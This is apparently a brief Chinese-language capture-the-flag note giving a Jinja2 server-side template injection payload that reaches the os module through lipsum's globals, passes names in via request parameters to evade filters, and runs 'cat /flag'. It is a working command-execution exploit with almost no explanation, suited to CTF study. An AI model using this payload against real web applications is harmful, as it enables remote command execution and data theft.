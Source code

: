 # 知识点
可以通过get来获取
# 思路
```python
?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=cat /flag
```
